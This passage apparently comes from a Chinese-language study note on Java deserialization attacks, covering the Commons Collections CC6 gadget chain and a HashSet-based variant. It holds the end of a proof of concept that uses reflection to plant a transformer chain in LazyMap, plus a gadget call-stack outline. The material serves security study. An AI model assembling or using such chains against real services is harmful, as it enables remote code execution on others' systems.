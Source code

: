             // 7. 通过反射获取 LazyMap 的值，put 后改回来，最终让其在反序列化时触发
            Field factoryField = lazyMap.getClass().getDeclaredField("factory");
            factoryField.setAccessible(true);
            factoryField.set(lazyMap, transformedChain);
    
            String serialize = serialize(toBeSerializedHashMap);
            unSerialize(serialize);
    }
    ```
    
3. gadget 部分细节：
    ```java
    /*
    	HashMap.readObject()
    	    HashMap.putVal()
    	        HashMap.hash()
    	            (HashMap 的键)TiedMapEntry.hashCode()
    	                TiedMapEntry.getValue()
    	                    LazyMap.get()
    	                        LazyMap.transform()
    	                        ...
    */
    ```

### 6.3 链变体 - kick-off 的改变

1. 上一个 CC6 链：
    `HashMap + TiedMapEntry + LazyMap + Transformer`。
    将 kick-off 进行改变，那么就要找到一个类，这个类的 `readObject()` 会调用到 `TiedMapEntry` 的 `hashcode()`。

2. su18 师傅直接提到了一个类 `HashSet`，如果从 `HashMap` 和 Hash 的角度考虑，可能还是从含有 Hash 的数据结构考虑。

3. `HashSet` 的 `readObject()` 方法中，调用一个 `HashMap` 的 `put()`：
    ![image-20240927101137334](Serialization-Java/image-20240927101137334.png)
    这个 `map` 成员的来源：